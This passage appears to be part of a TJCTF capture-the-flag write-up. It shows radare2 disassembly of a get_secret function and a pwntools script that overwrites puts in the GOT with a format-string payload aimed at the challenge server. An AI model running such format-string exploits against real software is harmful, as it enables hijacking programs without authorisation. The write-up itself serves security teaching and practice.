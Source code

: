 ```
|       |   0x08048742      83ec0c         sub esp, 0xc
|       |   0x08048745      683b8a0408     push str.Secret_could_not_be_accessed. ; 0x8048a3b ; "Secret could not be accessed." ; const char *s
|       |   0x0804874a      e821feffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x0804874f      83c410         add esp, 0x10
|      ,==< 0x08048752      eb2b           jmp 0x804877f
|      ||   ; CODE XREF from sym.get_secret (0x8048740)
|      |`-> 0x08048754      83ec04         sub esp, 4
|      |    0x08048757      8d45b4         lea eax, [local_4ch]
|      |    0x0804875a      50             push eax                    ;  ...
|      |    0x0804875b      68598a0408     push 0x8048a59              ; "%s" ; const char *format
|      |    0x08048760      ff75b0         push dword [stream]         ; FILE *stream
|      |    0x08048763      e8c8fdffff     call sym.imp.__isoc99_fscanf ; int fscanf(FILE *stream, const char *format, ...)
|      |    0x08048768      83c410         add esp, 0x10
|      |    0x0804876b      83ec08         sub esp, 8
|      |    0x0804876e      8d45b4         lea eax, [local_4ch]
|      |    0x08048771      50             push eax
|      |    0x08048772      685c8a0408     push str.Here_is_your_secret:__s ; 0x8048a5c ; "Here is your secret: %s\n" ; const char *format
|      |    0x08048777      e8a4fdffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x0804877c      83c410         add esp, 0x10
|      |    ; CODE XREF from sym.get_secret (0x8048752)
|      `--> 0x0804877f      90             nop
|           0x08048780      8b45f4         mov eax, dword [local_ch]
|           0x08048783      653305140000.  xor eax, dword gs:[0x14]
|       ,=< 0x0804878a      7405           je 0x8048791
|       |   0x0804878c      e8bffdffff     call sym.imp.__stack_chk_fail ; void __stack_chk_fail(void)
|       |   ; CODE XREF from sym.get_secret (0x804878a)
|       `-> 0x08048791      c9             leave
\           0x08048792      c3             ret
[0x080485e0]>
```

Utilizing these two pieces of information, we can try to override a libc function in the [GOT](https://www.youtube.com/watch?v=kUk5pw4w0h4) (`puts` in this case) with the `get_secret` function using two short writes similar to [this](https://www.youtube.com/watch?v=t1LH9D5cuK4).

Code:

```python
from pwn import *

# context.log_level = 'debug'
context.binary = './secure'

# sh = process('./secure')
sh = remote('problem1.tjctf.org', 8008)

secret_addr = 0x08048713
puts_got = 0x0804a028

payload = p32(puts_got)
payload += p32(puts_got+2)
payload += '%35$34571x'
payload += '%35$n'
payload += '%36$33009x'
payload += '%36$n'
payload += '\n'

sh.sendafter('> ', '12345\n')
sh.sendafter('> ', payload)
```